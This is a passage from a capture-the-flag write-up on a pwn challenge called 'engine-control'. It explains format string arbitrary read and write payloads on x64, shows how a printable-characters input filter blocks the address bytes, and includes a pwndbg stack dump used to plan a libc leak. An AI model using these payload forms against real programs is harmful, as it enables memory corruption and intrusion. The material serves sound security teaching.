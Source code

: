 ```python
    inp = str_input()

    if any(c not in string.ascii_letters + string.digits + string.punctuation for c in inp):
        l.sendline("Invalid input.")
        p.sendline()
    else:
        p.sendline(inp)
```

We see that all it does, is forward our input to the binary, and the binary's output back to us. The thing to take notice to here, is on lines `26-30`

There is an interesting restriction on our input before it is sent to the binary. It checks whether it contains anything other than a letter, a digit, or punctuation. In other words, we are restricted only to printable characters. If the input contains non-printable characters the input is discarded entirely.  
  
So maybe arbitrary read and write may not be so easy after all...

### Bypassing the restriction

The following content is made on the assumption that the reader is already familiar with format string exploitation, and how `printf` works. If not refer to the following [link](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf), its a good tutorial on getting started with format string exploitation.  
  
A typical arbitrary read using a format string exploit on x64 would look something like this:  
`%7$sAAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

Where `\xef\xbe\xad\xde\x0d\xd0\xde\xc0` is the address to read from, in this case 0xc0ded00ddeadbeef, and `%7$s` is the format specifier that `printf` will use to print the contents at that address that we provided. So the general form is: `%"position of the address on the stack"$s"padding until 8 bytes""address"`.  
  
Now the only problem here is that we can't pass non-printable characters, so the `%7$s` part will pass the test, whereas the address part won't. Therefore the input will get rejected, and our read will not happen.  
  
Same goes for arbitrary write which takes the form of:  
`%4919c%8$hnAAAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

With that input, the value 0x1337 will get written at the address 0xc0ded00ddeadbeef as a short value.  
Again with arbitrary read, this input will not pass due to it containing non printable characters in the address part.

What if we can use addresses already existing on the stack? There are definitely going to be a few LIBC addresses that could allow us to leak the remote LIBC version, and calculate the base.  
  
Lets check the contents of the stack just before the `printf` call:

```python
pwndbg> stack 0x3a
00:0000│ rdi rsp 0x7fffffffddf0 ◂— 0x786c24333325 /* '%33$lx' */
01:0008│         0x7fffffffddf8 ◂— 0x0
... ↓            23 skipped
19:00c8│         0x7fffffffdeb8 ◂— 0x452e06b170277e00
1a:00d0│ rbp     0x7fffffffdec0 —▸ 0x401350 (__libc_csu_init) ◂— push   r15
1b:00d8│         0x7fffffffdec8 —▸ 0x7ffff7e13d0a (__libc_start_main+234) ◂— mov    edi, eax
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
1d:00e8│         0x7fffffffded8 ◂— 0x100000000
1e:00f0│         0x7fffffffdee0 —▸ 0x401172 (main) ◂— push   rbp
1f:00f8│         0x7fffffffdee8 —▸ 0x7ffff7e137cf (init_cacheinfo+287) ◂— mov    rbp, rax
20:0100│         0x7fffffffdef0 ◂— 0x0
21:0108│         0x7fffffffdef8 ◂— 0xff4ab7143aa6b0ee
22:0110│         0x7fffffffdf00 —▸ 0x401090 (_start) ◂— xor    ebp, ebp
23:0118│         0x7fffffffdf08 ◂— 0x0
```